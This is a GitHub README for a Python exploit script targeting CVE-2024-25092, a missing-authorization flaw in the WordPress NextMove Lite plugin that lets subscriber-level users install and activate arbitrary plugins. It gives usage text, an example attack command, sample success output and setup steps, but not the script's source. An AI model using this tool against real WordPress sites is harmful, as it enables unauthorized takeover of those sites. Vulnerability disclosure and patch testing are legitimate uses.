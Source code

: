 # CVE-2024-25092 Exploit 

## Overview

**CVE-2024-25092** is a high-severity vulnerability affecting the WordPress NextMove Lite plugin (versions <= 2.17.0). This vulnerability allows a subscriber+ user to install and activate arbitrary plugins on a WordPress site due to missing authorization checks.

### Details

- **Published**: 2024-06-09
- **Updated**: 2024-06-09
- **Severity**: High (CVSS Score: 8.8)
- **CWE**: CWE-862 - Missing Authorization
- **Affected Versions**: All versions from n/a through 2.17.0

### CVSS Vector

- **CVSS Version**: 3.1
- **Vector String**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Description

The XLPlugins NextMove Lite plugin for WordPress has a missing authorization vulnerability, allowing authenticated users with subscriber-level permissions or higher to perform arbitrary plugin installations and activations. This can lead to a complete compromise of the WordPress site.

## Exploit Script

The provided Python script automates the exploitation of this vulnerability by logging into the WordPress site and installing a specified plugin.

### Usage

```sh
usage: CVE-2024-25092.py [-h] -u URL -un USERNAME -p PASSWORD [-pl PLUGIN]

Exploit script for CVE-2024-25092 By Nxploit Khaled Alenazi.

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -un USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Password
  -pl PLUGIN, --plugin PLUGIN
                        Plugin to install (default: cart-for-woocommerce)
```

### Example

```sh
python CVE-2024-25092.py -u http://example.com -un admin -p password -pl custom-plugin
```

### Output

```sh
Logged in successfully.
Site is vulnerable... Exploiting and uploading plugin
Plugin 'cart-for-woocommerce' installed and activated successfully.
```

## Script Details

### Requirements

- Python 3.x
- `requests` library

### Installation

1. Clone the repository:
    ```sh
    git clone https://github.com/Nxploited/CVE-2024-25092.git
    cd CVE-2024-25092
    ```

2. Install the required Python packages:
    ```sh
    pip install requests
    ```

## Disclaimer

This script is intended for educational purposes only. Use it responsibly and only on systems for which you have explicit permission. Unauthorized use of this script is illegal and unethical.
